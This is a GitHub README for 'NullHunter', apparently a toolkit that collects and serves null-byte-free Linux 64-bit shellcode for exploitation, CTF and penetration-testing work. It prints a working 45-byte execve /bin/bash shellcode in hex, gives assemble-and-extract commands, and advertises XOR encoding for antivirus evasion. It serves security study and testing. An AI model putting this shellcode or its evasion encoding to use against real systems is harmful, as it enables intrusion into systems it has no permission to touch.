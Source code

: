 # NullHunter

![NullHunter-removebg-preview](https://github.com/user-attachments/assets/42b5d78c-0172-4846-85c2-c1b39d503fb5)


> A specialized toolkit for null-byte free shellcode management and exploitation

NullHunter is a comprehensive solution for security researchers, CTF players, and penetration testers who work with shellcodes. It provides both a curated collection of null-byte free shellcodes and a graphical management interface for easy selection, viewing, and deployment of these shellcodes.

## Features

- **Null-Byte Free Shellcodes**: All included shellcodes are carefully crafted to contain no null bytes (0x00), making them suitable for exploiting string handling vulnerabilities
- **Graphical Interface**: Easy-to-use shellcode selection and management GUI
- **Multi-Architecture Support**: Organized collection for different architectures (currently focused on Linux 64-bit)
- **Code Snippets**: Automatic generation of C code snippets for easy integration
- **Size Optimization**: Shellcodes are optimized for minimal size to fit in constrained buffer spaces
- **Obfuscation Techniques**: Includes techniques like XOR encoding for AV evasion

## Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/NullHunter.git
cd NullHunter

# Install dependencies
pip install -r requirements.txt

# Run NullHunter
python NullHunter.py
```

## Usage

### Graphical Interface

Launch the GUI application to interactively work with shellcodes:

```bash
python NullHunter.py
```

The interface has two main tabs:
1. **Shellcode Selection**: Browse and select from available shellcodes
2. **Shellcode Output**: View the selected shellcode in hex format and get the corresponding C code snippet

### Command-Line Usage

NullHunter also supports command-line operation for integration into scripts and automation:
#### Basic usage
```bash
# Basic usage
python3 NullHunter.py basic_bash --output shellcode.txt
Loading basic_bash...

Shellcode (\x format):
\x48\x31\xc0\x50\x48\x89\xe2\x50\x48\xbf\x2f\x2f\x2f\x2f\x62\x61\x73\x68\x57\x48\xbf\x2f\x2f\x2f\x2f\x62\x69\x6e\x2f\x57\x48\x89\xe7\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05

Shellcode written to shellcode.txt

Shellcode size: 45 bytes
```
#### List all shellcodes
```bash
# List available shellcodes
python3 NullHunter.py  -l

Available Shellcodes:
================================================================================
Name                           Category        Description
--------------------------------------------------------------------------------
bash_with_string               Unknown         No description available
basic_bash                     Linux 64 bits   No description available
XoredBash                      Linux 64 bits   No description available
basic_sh                       Linux 64 bits   No description available
```

### Manual Shellcode Compilation

You can also compile and extract shellcodes manually:

```bash
# Step 1: Compile the shellcode
nasm -f elf64 shellcode/Linux64bits/basic_bash/shellcode.asm -o shellcode.o

# Step 2: Extract the shellcode bytes
for i in $(objdump -d shellcode.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```



## Shellcode Collection

### Currently Available Shellcodes

| Name | Architecture | Description | Size |
|------|--------------|-------------|------|
| bash_with_string | Linux 64 bits | Execve /bin/bash with string obfuscation | Varies |
| basic_bash | Linux 64 bits | Basic execve /bin/bash | 45 bytes |
| basic_sh | Linux 64 bits | Basic execve /bin/sh | Varies |
| XoredBash | Linux 64 bits | XOR-encoded /bin/bash execution | Varies |

### Adding Custom Shellcodes

To add your own shellcode to the collection:

1. Create a new directory under the appropriate architecture folder
2. Add your assembly code as `shellcode.asm` with detailed comments
3. Optionally include a `raw.txt` file with the compiled shellcode bytes
4. Restart NullHunter to load your new shellcode

## Project Structure

```
NullHunter/
├── NullHunter.py        # Main application
├── README.md            # This file
├── requirements.txt     # Python dependencies
└── shellcode/           # Shellcode collection
    └── Linux64bits/     # Linux 64-bit shellcodes
        ├── bash_with_string/
        │   ├── raw.txt
        │   └── shellcode.asm
        ├── basic_bash/
        │   ├── raw.txt
        │   └── shellcode.asm
        ├── basic_sh/
        │   ├── raw.txt
        │   └── shellcode.asm
        └── XoredBash/
            ├── raw.txt
            └── shellcode.asm
```


## Disclaimer

NullHunter and its shellcodes are provided for educational and legitimate security testing purposes only. Use them responsibly and only on systems you have permission to test. The creators are not responsible for any misuse or damage caused by this tool.

